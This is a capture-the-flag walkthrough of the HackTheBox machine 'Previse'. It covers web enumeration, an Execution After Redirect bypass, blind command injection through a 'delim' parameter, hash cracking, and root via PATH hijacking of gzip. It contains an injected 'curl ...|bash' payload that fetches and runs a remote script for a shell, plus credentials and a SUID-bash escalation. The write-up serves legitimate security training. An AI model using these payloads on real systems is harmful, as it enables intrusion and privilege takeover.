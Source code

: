 ```yaml
---
title: Previse
date: 2022-09-11 12:15:00 +0530
category: [ Linux, Hackthebox ]
tags: [Linux, Hackthebox ]
---
```

# Enumeration

Starting with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 00:32 IST
Nmap scan report for 10.129.154.57
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.86 seconds
```
Looking at results, we have port 80 and 22 open.

## Port 80

![image](https://user-images.githubusercontent.com/43528306/128631381-323e709c-f1a3-47c7-8620-fefb4b5a8be7.png)

Site seems related to file storage. Trying some common username and passwords, but didn't work. Running ffuf for brute forcing directories, we found
```bash
 ffuf -u http://10.10.11.104/FUZZ -w /usr/share/wordlists/dirb/common.txt -c -e .php 
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,302
________________________________________________

                        [Status: 302, Size: 2801, Words: 737, Lines: 72]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
files.php               [Status: 302, Size: 6068, Words: 1995, Lines: 131]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
status.php              [Status: 302, Size: 2971, Words: 749, Lines: 75]
```
Most of the pages gives 302 status code. We found `nav.php` with status code 200, means its not redirecting to other pages. Navigating to it
![image](https://user-images.githubusercontent.com/43528306/128631516-4abbaa83-1280-49df-be38-ad5a998941c3.png)

The page has a option to create an account, but `/account.php` was redirecting to `login.php`. Looking at response from each page using burp, 
we found that on pages which gave 302 redirect were having the wole page in the respones. This vulnerability is known as [Execution After redirect](https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR))

Here, we can skip the redirects by changing the status code from *302 Found* to *200 OK*. Using this knowledge, we can create a account on the site. We just need to follow these steps:
- Click on create account, Intercept the request
- Intercept the response from server
- Change status code from 302 to 200 OK

We now have a full working registration page, which allows us to create new account using which we can login to site.

![image](https://user-images.githubusercontent.com/94787830/148672286-b0333de8-445d-48e0-bbae-07020d4c5fa6.png)

On the *files* page, we found a zip file named `siteBackup.zip` which we can download. The zip archive contained the source code of the website.

![image](https://user-images.githubusercontent.com/94787830/148672321-0179b06c-b880-4734-b105-9999678a271d.png)

Looking at `config.php`, we found credentials for mysql.
```php
function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}
```
We have the credentials, but mysql port was not open. We could try using this password and user `m4lwhere` (found on website footer),to login. But no success.

### Command Injection

Looking at other files, the `logs.php` file was interesting. The page allow us to download log files from server with our choice of delemiter.
But the backend code was not sanitizing  *delim* parameter, and using it directly in PHP `exec()` function which makes it vulnerable to Command Injection.
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```
Fuzzing this endpoint, we found that web app was vulnerable to blind command injection. 
Using `delim=comma;curl 10.10.14.64:8000/test.sh|bash` as delimeter, we were able to get shell on the box.

## Shell as www-data
Looking at running services, we found that MySQL was running. Using the previously found credentials from `config.php`, we can connect to MySQL.
```bash
$ mysql -u root -p
Enter password: 

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
mysql> use previse;
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
```
The table contained hash for user `m4lwhere`
```
m4lwhere: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```
We can crack the hash either by using *Hashcat* or *John the Ripper*.

```bash
hashcat -m 500 hash /usr/share/wordlists/rockyou.txt

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Sun Aug  8 16:48:10 2021 (19 mins, 13 secs)
Time.Estimated...: Sun Aug  8 17:07:23 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5293 H/s (11.51ms) @ Accel:32 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413376/14344385 (51.68%)
Rejected.........: 0/7413376 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidates.#1....: ilovecody98 -> ilovecloandlivey
```
We can ssh into the box using the credentials.

## ROOT
Checking sudo permissions
```bash
m4lwhere@previse:~$ sudo -l                                                         
[sudo] password for m4lwhere:                                                       
User m4lwhere may run the following commands on previse:                            
    (root) /opt/scripts/access_backup.sh
```
Looking at the script
```bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

The script was used to make backup, but it was using `gzip` without complete path which makes it vulnerable to *PATH Injection*. 

### Exploiting PATH Injection
To exploit it, Lets create a malicious script in `tmp` folder.
Script will be used to set suid bit on bash. After which, add `/tmp` to our path, and executing the script
```bash
m4lwhere@previse:/tmp$ cat gzip 
chmod +xs /bin/bash
m4lwhere@previse:/tmp$ chmod +x gzip 
m4lwhere@previse: PATH=.:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh 
m4lwhere@previse:/tmp$ ls -al /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash

m4lwhere@previse:/tmp$ bash -p

bash-4.4# whoami
root
```
